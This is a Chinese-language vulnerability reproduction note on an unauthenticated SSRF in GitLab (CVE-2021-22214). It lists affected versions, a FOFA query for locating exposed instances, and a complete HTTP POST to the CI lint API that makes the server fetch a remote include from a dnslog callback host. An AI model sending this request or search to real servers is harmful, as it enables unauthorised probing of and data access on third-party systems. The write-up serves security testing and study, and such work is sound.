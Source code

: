 # GitLab-SSRF漏洞-CVE-2021-22214

## 漏洞描述

GitLab存在前台未授权SSRF漏洞，未授权的攻击者也可以利用该漏洞执行SSRF攻击（CVE-2021-22214）。该漏洞源于对用户提供数据的验证不足，远程攻击者可通过发送特殊构造的 HTTP 请求，欺骗应用程序向任意系统发起请求。攻击者成功利用该漏洞可获得敏感数据的访问权限或向其他服务器发送恶意请求。

## 漏洞影响

> [!NOTE]
>
> Gitlab > 10.5 

## FOFA

> [!NOTE]
>
> app="GitLab"

## 环境搭建

http://vulfocus.fofa.so/

![image-20210627220351605](GitLab-SSRF漏洞-CVE-2021-22214.assets/1627363076729886.jpg)

## 漏洞复现

登录页面如下

![image-20210627220651158](GitLab-SSRF漏洞-CVE-2021-22214.assets/1627363076972509.jpg)

发送请求包

```
POST /api/v4/ci/lint HTTP/1.1
Host: 
User-Agent: python-requests/2.25.0
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
Content-Type: application/json
Content-Length: 111

{"include_merged_yaml": true, "content": "include:\n  remote: http://965qaw.dnslog.cn/api/v1/targets?test.yml"}
```

![image-20210627220854023](GitLab-SSRF漏洞-CVE-2021-22214.assets/1627363077290326.jpg)